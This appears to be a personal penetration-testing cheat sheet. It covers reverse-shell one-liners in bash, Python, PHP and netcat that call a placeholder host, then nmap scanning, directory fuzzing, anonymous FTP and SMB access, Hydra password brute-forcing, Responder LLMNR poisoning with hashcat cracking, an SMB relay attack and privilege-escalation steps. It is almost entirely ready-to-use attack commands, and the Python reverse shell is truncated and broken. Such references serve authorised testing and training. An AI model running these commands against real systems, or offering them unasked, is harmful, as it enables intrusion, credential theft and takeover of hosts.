 # Reverse shells

## Bash
bash -i >& /dev/tcp/<IP_ADDRESS>/<PORT> 0>&1

## Python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP_ADDRESS>",<PORT>));

## PHP
php -r '$sock=fsockopen("<IP_ADDRESS>",<PORT>);exec("/bin/sh -i <&3 >&3 2>&3");'

## Netcat
nc -e /bin/sh <IP_ADDRESS> <PORT>

# Nmap

## Basic Nmap scan
nmap -sV -sC -vv <IP_ADDRESS>

## Comprehensive Nmap scan
nmap -sV -sC -vv -p- <IP_ADDRESS>

## Nmap says it's down?
nmap -Pn..

## What to note from Nmap scans
- Open ports
- Running services
- Service versions -> Look for exploits online or using searchsploit
- FTP Anonymous login allowed?
- Is RDP running?
- Non-standard ports for services such as ssh, http etc..

# Web testing

## Initial steps (not in order)
1. Check for common dirs (robots.txt, wp-login.php etc..)
2. Fuzz dirs with ffuf & dirb -> ffuf -w <WORDLIST_PATH>:FUZZ -u <URL>/FUZZ
3. Any page that takes URL parameters?
4. What technologies are running? (Use Wappalyzer extension, check response headers etc..)
5. Check page sources
6. Any JS scripts?
7. Anything in local storage or any cookies? (Decode if possible -> Possible session hijack) 
8. Move on to SQLi vectors, mess around with requests using Burpsuite/OWASP ZAP

# FTP

## FTP Anonymous login
- Username: anonymous
- Password: ""

# SMB

- Try user "guest" and no password

## smbmap

- Example: smbmap -H <HOST>

## smbclient

- List shares:	smbclient -L \\\\<HOST>
- Connect: 	smbclient \\\\<HOST>\\<SHARE>

# Brute-forcing services

- Burpsuite
- OWASP ZAP

## Hydra

- Example: hydra -l <USERNAME> -P <PASSWORD_LIST> ssh://<IP_ADDRESS>
- Example: hydra -l <USERNAME> -P <PASSWORD_LIST> <IP_ADDRESS> ssh -s <PORT>
- Example: hydra -l <USERNAME> -P <PASSWORD_LIST> <TARGET_IP> http-post-form "/Account/login.aspx:<Paste request body from network -> view raw, replace fields with ^USER^ and ^PASS^>:Login failed"

# Active Directory

## Using Responder for LLMNR poisoning
- This is very noisy
- Can only be done on the same network
- Might take a lot of time to intercept traffic

sudo responder -I <INTERFACE>

### Crack captured hashes from Responder with Hashcat
hashcat -m 5600 <HASH_FILE> <PASSWORD_FILE> --force
"-m 5600" -> is for NTLMv2 hashes, check formats with --help

## SMB Relay attack
- Turn off SMB & HTTP in Responder.conf

### Check if a host has SMB signing disabled with Nmap
nmap --script=smb2-security-mode.nse -p 445 <IP/CIDR>

### Listen for events in Responder

### Set up relay

ntlmrelayx.py -tf <TARGET_LIST_FILE> -smb2support

# Windows misc

## Hosts file
-> C:\Windows\System32\drivers\etc\hosts

# Privilege escalation

## Linux privesc
- Check for hidden files
- sudo -l
- cat /etc/crontab
- getcap -r / 2>/dev/null
- find / -perm -04000 2>/dev/null
- Use LINPEAS
- Use pspy
- Check /opt
- Check config files for credentials

## Windows privesc

### 1 (From simple reverse shell)
- whoami /priv
- (SeImpersonatePrivilege        Impersonate a client after authentication Enabled) ?
- Use PrintSpoofer.exe
- PrintSpoofer.exe -i -c cmd
